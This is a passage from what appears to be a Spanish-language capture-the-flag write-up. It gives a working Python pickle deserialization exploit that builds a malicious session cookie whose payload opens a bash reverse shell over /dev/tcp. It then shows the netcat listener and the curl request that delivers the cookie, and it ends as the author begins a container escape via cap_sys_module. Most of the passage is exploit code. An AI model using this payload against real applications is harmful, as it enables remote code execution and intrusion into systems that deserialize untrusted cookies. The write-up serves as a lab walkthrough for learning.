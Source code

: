 ```
import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/ip/port 0>&1"',))

# build pickle payload
payload = pickle.dumps(RCE())

print("[*] Malicious cookie value:")
# get the hex value
print(payload.hex())
```


Inicializamos nuestro oyenete:

```
nc -lvnp 4242
```

Por ultimo hacemos una peticion con la cokkie que generamos con el payload.

```
curl localhost:5000 -b "session_data=cokkie" -s
```

Y obtenermos la bandera del usuario.

<figure><img src="../.gitbook/assets/voyage/container1.png" alt=""><figcaption></figcaption></figure>


# /conteiner

Ahora podemos realizar enumeraciones de escalada de privilegios para identificar posibles vulnerabilidades que nos permitan escapar del contenedor. Hemos encontrado un módulo que puede ayudarnos en este proceso, el `cap_sys_module`.

